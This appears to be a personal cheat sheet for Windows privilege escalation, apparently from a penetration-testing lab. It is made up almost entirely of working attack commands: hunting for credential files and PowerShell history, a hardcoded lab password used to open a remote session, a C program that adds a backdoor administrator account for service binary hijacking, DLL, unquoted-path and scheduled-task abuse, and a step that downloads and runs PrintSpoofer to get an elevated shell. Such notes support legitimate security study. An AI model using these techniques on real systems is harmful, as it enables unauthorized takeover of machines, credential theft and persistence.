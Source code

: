 # windows privesc
basic windows privilege escalation, since i have trouble parsing through the torrent of false-positives from standard tools

### // sitational awareness
```
whoami /groups
powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember adminteam
Get-LocalGroupMember Administrators
systeminfo
ipconfig /all
route print
netstat -ano
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
```

### // hidden in plain view
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
type C:\xampp\mysql\bin\my.ini
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

### // powershell info
```
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\Public\Transcripts\transcript01.txt
```

### // enter pssession
```
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

### // service binary hijacking .. find what services you can replace the binary of
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "icacls "C:\xampp\mysql\bin\mysqld.exe"
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
.. you can restart the system to initiate a service restart
```

### // create user c program
```
#include <stdlib.h>
int main (){int i;i = system ("net user dave2 password123! /add");i = system ("net localgroup administrators dave2 /add");return 0;}
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### // service DLL hijacking .. hijack a dll and gain execution as the parent process
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls .\Documents\BetaServ.exe
Restart-Service BetaService
```

### // unquoted service path .. abuse windows behavior by placing a malicious bin higher in a service path
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

### // scheduled task privesc
```
schtasks /query /fo LIST /v
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

### // print spooler exploit .. SeImpersonatePrivilege?
```
whoami /priv
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

### // on-target Windows enumeration / privesc
```
#weak folder permissions
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
